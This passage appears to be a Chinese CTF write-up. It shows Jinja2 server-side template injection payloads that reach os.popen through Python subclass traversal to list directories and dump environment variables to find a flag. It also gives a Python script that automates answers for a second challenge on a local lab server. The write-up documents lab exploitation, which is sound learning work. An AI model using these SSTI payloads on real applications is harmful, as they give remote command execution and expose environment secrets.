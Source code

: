 回显root

![](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409112022254.png)

我们访问根目录，没发现有flag

```
?id={% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls ../').read()") }}{% endif %}{% endfor %}
```

![image-20240911202311569](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409112023725.png)

我们考虑是否在环境变量里

```
?id={% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('env').read()") }}{% endif %}{% endfor %}
```

成功找到flag

![image-20240911202359735](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409112023783.png)

### **勇闯铜人阵**

让我们愉快的写脚本

```
import requests
url="http://192.168.80.1:55726/"
session=requests.Session()
data1={
    'player':1,
    'direct':'弟子明白'
}
d1=["北方","东北方","东方","东南方","南方","西南方","西方","西北方"]
d2=["北方一个","东北方一个","东方一个","东南方一个","南方一个","西南方一个","西方一个","西北方一个"]
a=[1,2,3,4,5,6,7,8]
r=session.post(url,data=data1)
n=6
while(n):
    num=0
    st=''
    b=(r.text)[-30:-22]
    print(b)
    for i in a:
        if str(i) in b:
            num+=1
            st+=str(i)
    if num==1:
        data={
            'player':1,
            'direct': f'{d1[int(st)-1]}'
        }
        r = session.post(url, data=data)
        print(d1[int(st)-1])
        print(r.text)
    if num==2:
        data = {
            'player': 1,
            'direct': f'{d2[int(st[0])-1]}，{d2[int(st[1])-1]}'
        }
        r = session.post(url, data=data)
        print(r.text)
```